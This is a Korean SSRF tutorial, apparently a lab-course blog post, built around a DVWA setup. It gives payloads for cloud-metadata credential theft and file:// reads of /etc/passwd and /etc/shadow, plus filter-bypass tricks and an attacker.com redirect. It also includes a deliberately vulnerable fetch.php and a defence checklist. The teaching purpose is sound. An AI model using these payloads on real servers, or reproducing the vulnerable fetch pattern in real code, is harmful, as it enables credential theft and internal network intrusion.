


# 04. Server-Side Request Forgery (SSRF)

**실습 환경**: Kali Linux (192.168.0.10) → DVWA on Ubuntu (192.168.0.30/DVWA/)

---

## 1. SSRF 개념

**SSRF(Server-Side Request Forgery)** 는 공격자가 웹 애플리케이션을 이용해 **서버 자체가 내부 네트워크나 외부 리소스에 요청을 보내도록 유도**하는 취약점이다.

핵심은 서버를 "대리인(Proxy)"처럼 사용한다는 점이다.

- 공격자는 직접 내부 시스템에 접근할 수 없지만,
- 취약한 서버를 거치면 내부망에서 나온 요청처럼 처리된다.

이 취약점은 2021판에서 **A10: Server-Side Request Forgery** 로 단독 항목이었으나, **OWASP Top 10:2025부터 A01 Broken Access Control에 흡수**되었다.

### 1.1 SSRF로 이어지는 피해

1. 내부 시스템 탐색 (포트 스캔, 서비스 식별)
2. 민감 정보 탈취 (Cloud Metadata, 설정 파일)
3. 방화벽 우회 (외부에서 직접 접근 불가한 서비스 접근)
4. 원격 코드 실행 (RCE) 으로 연결

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A01:2025 – Broken Access Control** (SSRF 흡수, 구 A10:2021) |
| CWE | CWE-918 (Server-Side Request Forgery) |
| 영향 | 내부망 포트 스캔, 클라우드 메타데이터(자격증명) 탈취, 방화벽 우회, RCE 연계 |
| 한 줄 핵심 | 서버가 **사용자가 지정한 URL을 검증 없이 대신 요청**해, 외부에서 닿지 못하는 내부 자원에 접근됨 |

> SSRF는 2021판에서 클라우드 위험 증가로 **신규 단독 항목(A10)** 이 되었다가, **OWASP Top 10:2025에서 A01 Broken Access Control로 통합**되었다.  
> (서버가 "접근하면 안 되는 내부 자원"에 접근한다는 점에서 본질적으로 접근 통제 문제로 본 것이다.)  
> 특히 AWS `169.254.169.254` 같은 **메타데이터 엔드포인트**에서 임시 자격증명을 빼내는 공격으로 악명 높다.
{: .prompt-info }

---

## 2. SSRF 발생 원인

SSRF는 **사용자가 제공한 URL을 서버가 검증 없이 그대로 요청**할 때 발생한다.

이런 기능을 가진 서비스에서 자주 발생한다.

| 기능 | 설명 |
|---|---|
| 이미지 업로드 (URL 방식) | 외부 URL로 이미지를 가져오는 기능 |
| 웹훅(Webhook) | 특정 URL로 HTTP 요청을 전송하는 기능 |
| PDF 생성 | 외부 URL의 콘텐츠를 렌더링하는 기능 |
| 원격 파일 가져오기 | URL을 받아 파일을 다운로드하는 기능 |
| URL 미리보기 | 링크 내용을 서버 측에서 불러오는 기능 |

---

## 3. SSRF 공격 유형



### 3.1 내부 서비스 탐색

서버가 자기 자신(localhost)이나 내부 네트워크에 요청을 보내게 하여 어떤 서비스가 동작 중인지 확인한다.

```
http://127.0.0.1:22      → SSH 서비스 확인
http://127.0.0.1:3306    → MySQL 서비스 확인
http://127.0.0.1:8080    → 내부 관리 포트 확인
http://127.0.0.1:6379    → Redis 확인
```

응답 내용이나 응답 시간의 차이로 서비스 존재 여부를 파악할 수 있다.

### 3.2 Cloud Metadata 탈취

AWS, GCP, Azure 같은 클라우드 환경에서는 인스턴스 메타데이터 API가 내부 주소로 접근 가능하다.

```
http://169.254.169.254/latest/meta-data/            → AWS 메타데이터 루트
http://169.254.169.254/latest/meta-data/iam/        → IAM 역할 정보
http://169.254.169.254/latest/meta-data/iam/security-credentials/  → 임시 자격증명
```

이 자격증명을 탈취하면 클라우드 전체가 공격자의 손에 들어갈 수 있다.

### 3.3 내부 네트워크 스캔

```
http://192.168.0.1/admin    → 내부 라우터/관리 페이지
http://10.0.0.1:8443/api    → 내부 API 서버
```

외부에서는 방화벽으로 차단되어 있어도, 서버가 대신 요청을 보내므로 내부망처럼 접근된다.

---

## 4. Blind SSRF vs 일반 SSRF

| 구분 | 일반 SSRF | Blind SSRF |
|---|---|---|
| 응답 확인 | 요청 결과가 화면에 직접 표시됨 | 결과가 화면에 나타나지 않음 |
| 확인 방법 | 응답 내용 직접 확인 | 외부 DNS 요청, 타이밍 차이 등으로 간접 확인 |
| 탐지 도구 | 브라우저 / Burp Suite | Burp Suite Collaborator, interactsh |
| 위험도 | 직접적 정보 노출 | 존재 확인 → 다른 공격으로 연계 |

Blind SSRF는 응답이 없지만, 서버가 실제로 요청을 보냈다면 외부 DNS 서버나 HTTP 서버에 기록이 남는다.

---

## 5. DVWA 실습

> 표준 DVWA에는 SSRF 전용 모듈이 없어 **DVWA Low/Medium/High 레벨이 존재하지 않는다.**  
> 대신 SSRF는 서버의 **방어 성숙도 단계**로 레벨을 나누어 공격·방어를 학습한다. 아래 표가 그 대응이다.
{: .prompt-info }

### 5.0 방어 성숙도 단계별 공격·방어 (SSRF의 "레벨")

| 단계 | 서버 측 방어 | 공격(우회) 방안 | 방어 한계 |
|---|---|---|---|
| **취약 (≈Low)** | URL 검증 없음 | `http://127.0.0.1`, `http://169.254.169.254/...`, `http://127.0.0.1:3306` 직접 요청 | 내부망·메타데이터 그대로 노출 |
| **블랙리스트 (≈Medium)** | `127.0.0.1`·`localhost` 문자열 차단 | 진법 변환(`http://2130706433`), `0x7f.0.0.1`, `[::1]`, `http://127.1` 로 우회 | IP 표기 다양성을 다 막지 못함 |
| **부분 방어 (≈High)** | 도메인 화이트리스트 + 리다이렉트 따라감 | 공격자 도메인이 내부 IP로 응답하게 하는 **DNS Rebinding**, 화이트리스트 도메인 → 내부 IP 리다이렉트 | 검증 시점과 요청 시점의 차이(TOCTOU) |
| **완전 방어 (≈Impossible)** | **허용 URL 화이트리스트 + 내부 IP 대역 차단 + 리다이렉트 금지 + 응답 비노출 + 네트워크 분리** | 우회 불가 | — (다층 방어) |

> 핵심: SSRF는 단일 필터로 막기 어렵다. **화이트리스트 + 네트워크 분리(메타데이터 차단)** 의 다층 방어가 정답이다(7장).
{: .prompt-tip }

### 실습 1: SSRF 개념 실습 경로 (중요)

> **표준 DVWA(digininja/DVWA)에는 SSRF 전용 모듈이 없다.** 따라서 SSRF는 아래 두 가지 방법으로 실습한다.
> 1. **실습 3의 직접 만든 취약 페이지(`fetch.php`)** — 가장 명확한 SSRF 실습 (권장, 아래에서 먼저 페이지를 만든 뒤 진행)
> 2. **File Inclusion(`/DVWA/vulnerabilities/fi/`) 모듈의 RFI 기능** — `page=http://...` 로 서버가 외부 URL을 가져오게 하여 SSRF 개념을 간접 체험 (09번 포스트 참고)
{: .prompt-warning }

아래 페이로드들은 **실습 3에서 만든 `fetch.php`의 `url` 파라미터**(또는 File Inclusion의 `page` 파라미터)에 입력해 동작을 확인한다.

**기본 테스트**

서버가 내부 주소로 요청을 보내는지 확인한다.

```
http://127.0.0.1/          → 로컬호스트 웹 서비스 접근
http://192.168.0.30/       → 서버 자신에게 요청
```

**내부 서비스 탐색**

```
http://127.0.0.1:22        → SSH 포트 확인 (배너 또는 연결 거부 응답)
http://127.0.0.1:3306      → MySQL 확인 (MySQL 프로토콜 응답)
http://127.0.0.1:8080      → 내부 관리 포트 확인
```

> 포트가 열려 있으면 서비스 배너나 오류 메시지가 응답 본문에 나타난다.  
> 포트가 닫혀 있으면 연결 거부나 타임아웃이 발생한다.
{: .prompt-info }

**파일 프로토콜 사용**

서버가 `file://` 프로토콜을 허용하는 경우 서버의 로컬 파일을 읽을 수 있다.

```
file:///etc/passwd          → 시스템 계정 목록 확인
file:///etc/hosts           → 내부 네트워크 호스트 구성 확인
file:///etc/shadow          → 비밀번호 해시 (권한 있는 경우)
```

### 실습 2: Burp Suite Collaborator로 Blind SSRF 확인

1. Burp Suite를 실행하고 **Burp Collaborator** 에서 고유 URL을 생성한다.

   ```
   예) https://abcdef1234.oastify.com
   ```

2. 생성된 Collaborator URL을 SSRF 입력값으로 사용한다.

   ```
   http://192.168.0.30/DVWA/ 의 SSRF 파라미터에 입력:
   https://abcdef1234.oastify.com
   ```

3. Burp Suite Collaborator 탭에서 **DNS Lookup** 및 **HTTP 요청** 이 들어왔는지 확인한다.

   - DNS Lookup이 확인되면 서버가 외부 요청을 보냈다는 것을 증명한다.
   - 응답 내용이 화면에 나타나지 않아도(Blind) 취약점이 존재한다.

### 실습 3: 수동 SSRF 취약 환경 구성

DVWA에 SSRF 모듈이 없거나 추가 테스트가 필요한 경우, Ubuntu에 취약한 PHP 페이지를 직접 생성하여 실습할 수 있다.

**취약한 fetch.php 생성**

Ubuntu 서버(192.168.0.30)에서 아래 명령어를 실행한다.

```bash
sudo tee /var/www/html/fetch.php << 'EOF'
<?php
$url = $_GET['url'];
$content = file_get_contents($url);
echo $content;
?>
EOF
```

> `/var/www/html`은 root 소유이므로 반드시 `sudo tee`로 작성한다. (`cat >`는 권한 오류로 실패한다.)
{: .prompt-tip }

**테스트 URL**

Kali(192.168.0.10) 브라우저에서 아래 URL로 접근한다.

```
# 로컬호스트 웹 접근
http://192.168.0.30/fetch.php?url=http://127.0.0.1/

# 내부 서비스 탐색
http://192.168.0.30/fetch.php?url=http://127.0.0.1:22
http://192.168.0.30/fetch.php?url=http://127.0.0.1:3306

# 파일 읽기
http://192.168.0.30/fetch.php?url=file:///etc/passwd
http://192.168.0.30/fetch.php?url=file:///etc/hosts
```

> 실습이 끝난 후에는 반드시 fetch.php를 삭제한다.
{: .prompt-warning }

```bash
sudo rm /var/www/html/fetch.php
```

---

## 6. 필터 우회 기법

방어 로직이 적용된 경우에도 다양한 우회 방법이 존재한다. 방어 측에서는 이러한 우회 방법을 모두 고려해야 한다.

### 6.1 IP 주소 표현 변환

```
# 127.0.0.1의 다양한 표현
http://0x7f000001/         → 16진수 표현
http://2130706433/         → 10진수 정수 표현
http://0177.0.0.1/         → 8진수 표현
http://127.1/              → 축약 표현
```

### 6.2 도메인 활용

```
http://localhost/          → 127.0.0.1 로 해석됨
http://localtest.me/       → 127.0.0.1 로 DNS 응답
http://0.0.0.0/            → 일부 환경에서 localhost 로 처리
```

### 6.3 URL 인코딩 / 이중 인코딩

```
http://127.0.0.1%2F        → /가 %2F로 인코딩
http://127.0.0.1%00        → Null 바이트 삽입
http://%31%32%37%2E%30%2E%30%2E%31/   → IP 전체 인코딩
```

### 6.4 리다이렉트 활용

```
# 공격자 서버가 내부 IP로 리다이렉트
http://attacker.com/redirect → 302 Location: http://127.0.0.1/admin
```

### 6.5 DNS Rebinding

1. 처음 DNS 조회 시: `ssrf-test.attacker.com` → 공개 IP (허용 통과)
2. 이후 실제 요청 시: DNS TTL 만료 후 `ssrf-test.attacker.com` → `127.0.0.1` 로 응답 변경

---

## 7. 방어 방법



### 7.1 허용 URL 화이트리스트

- 서버가 요청을 보낼 수 있는 URL을 미리 정해진 목록으로 제한한다.
- `https://api.trusted-service.com/` 처럼 구체적인 경로까지 지정하는 것이 좋다.

### 7.2 내부 IP 대역 차단

RFC 1918 및 특수 목적 IP 대역으로의 요청을 차단한다.

```
10.0.0.0/8          → 사설망
172.16.0.0/12       → 사설망
192.168.0.0/16      → 사설망
127.0.0.0/8         → 루프백
169.254.0.0/16      → 링크-로컬 (Cloud Metadata)
::1                 → IPv6 루프백
```

### 7.3 DNS Rebinding 방지

- DNS 조회 결과를 캐시한 뒤, 실제 요청 시 IP를 재확인하여 DNS Rebinding 공격을 탐지한다.
- 또는 IP 해석 결과가 내부 대역이면 요청을 차단한다.

### 7.4 HTTP 리다이렉트 제한

- 서버가 URL 요청 중 발생하는 리다이렉트(3xx 응답)를 자동으로 따라가지 않도록 설정한다.
- 리다이렉트를 허용해야 한다면 횟수를 제한하고 목적지 URL을 재검증한다.

### 7.5 응답 내용을 사용자에게 직접 반환하지 않음

- 서버가 가져온 콘텐츠를 그대로 사용자에게 전달하면 Blind SSRF가 일반 SSRF로 악화된다.
- 응답 내용을 가공하거나, 필요한 정보만 추출하여 반환한다.

### 7.6 네트워크 레벨 분리

- 웹 서버가 외부 요청을 보내야 하는 경우, 별도의 DMZ 또는 격리된 프록시 서버를 경유하도록 네트워크를 분리한다.
- 웹 서버에서 내부 서비스로의 직접 통신을 방화벽으로 차단한다.

---

## 8. SSRF 방어 체크리스트

| 항목 | 설명 | 적용 여부 |
|---|---|---|
| 허용 URL 화이트리스트 | 요청 가능한 URL을 목록으로 제한 | |
| 내부 IP 대역 차단 | RFC 1918 + 링크-로컬 등 차단 | |
| DNS Rebinding 방지 | IP 재확인 로직 구현 | |
| 리다이렉트 제한 | 자동 리다이렉트 비활성화 또는 횟수 제한 | |
| 응답 필터링 | 가져온 내용을 직접 반환하지 않음 | |
| 네트워크 분리 | 웹 서버와 내부 서비스 간 방화벽 적용 | |
| 로깅 및 모니터링 | 비정상 외부 요청 패턴 탐지 | |

---

## 9. 핵심 정리

1. **SSRF** 는 공격자가 서버를 대리인(Proxy)처럼 사용해 내부 네트워크에 요청을 보내게 하는 취약점이다.
2. 발생 원인은 **사용자가 제공한 URL을 서버가 검증 없이 그대로 요청**하는 데 있다.
3. 내부 서비스 탐색, Cloud Metadata 탈취, 내부망 스캔으로 이어질 수 있다.
4. **Blind SSRF** 는 응답이 보이지 않지만 DNS 요청 등 외부 신호로 확인 가능하다.
5. 방어는 **허용 URL 화이트리스트 + 내부 IP 차단 + DNS Rebinding 방지** 가 핵심이다.
6. IP 16진수 표현, 도메인 우회, 리다이렉트 등 다양한 **필터 우회 기법** 이 존재하므로 방어는 다층적으로 적용해야 한다.
